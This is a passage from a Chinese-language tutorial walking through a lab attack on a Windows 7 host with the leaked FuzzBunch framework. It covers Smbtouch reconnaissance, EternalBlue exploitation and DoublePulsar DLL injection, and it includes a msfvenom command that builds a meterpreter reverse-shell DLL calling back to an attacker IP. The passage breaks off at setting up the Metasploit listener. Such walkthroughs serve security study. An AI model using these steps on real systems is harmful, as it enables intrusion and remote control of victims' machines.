 3.指定log日志目录;

4.该项目名称。

[![](./img/85911/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0191bcd0ed8897e69e.png)

在以上的配置中，Target ip(被攻击机器)IP地址是192.168.69.42,Callback IP(回调地址)也就是运行fb.py框架的IP地址。

配置完成之后,进入下一步,使用help查看帮助命令。

[![](./img/85911/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t011e739637385397cf.png)

use命令的用途是选择插件，如下所列：

[![](./img/85911/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01d40ebbbed3c6fa40.png)

插件被分解成几类：

目标识别和利用漏洞发现：Architouch，Rpctouch，Domaintouch，Smbtouch等。;

漏洞利用：EternalBlue，Emeraldthread，Eclipsedwing，EternalRomance等。;

目标攻击后后操作：Douplepulsar,Regread,Regwrite等。

然后我们通过使用Smbtouch使用smb协议来检测对方操作系统版本、架构、可利用的漏洞。

[![](./img/85911/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t017ca39668fe029d1d.png)

[![](./img/85911/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t0155b80a823c9219af.png)

在这个例子中，目标系统似乎有三个漏洞可以利用（EternalBlue，EternalRomance和EternalChampion）,经过这几天的测试,我发现EternalBlue比较稳定,我直接选择使用EternalBlue这个漏洞利用工具。

[![](./img/85911/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t012c672ba0a1f9b0c1.png)

[![](./img/85911/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01a093aa895b972893.png)

使用EternalBlue漏洞利用成功之后,会在内核中留一个后门。

[![](./img/85911/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t014395349db878ea27.png)

通过返回的信息,可以看出攻击成功,用了不到10秒钟的时间，攻击成功之后并不能直接执行命令,需要用框架的其他的插件配合。

攻击成功之后就可以开始使用DoublePulsar插件,DoublePulsar类似于一个注入器,有以下几个功能。

Ping： 检测后门是否部署成功

RUNDLL：注入dll。

RunShellcode：注入shellcode

Uninstall:用于卸载系统上的后门

在这里我使用RUNDLL来注入dll到目标系统,在注入之前,我打开metasploit生成个dll。也可以使用cobaltstrike等,注意:msf生成的dll注入到wwin7进程的时候,win7可能会重启。

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.38.129 LPORT=8089 -f dll &gt; c.dll
```

[![](./img/85911/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t019344ce98bc61e3ed.png)

打开metasploit监听反弹端口

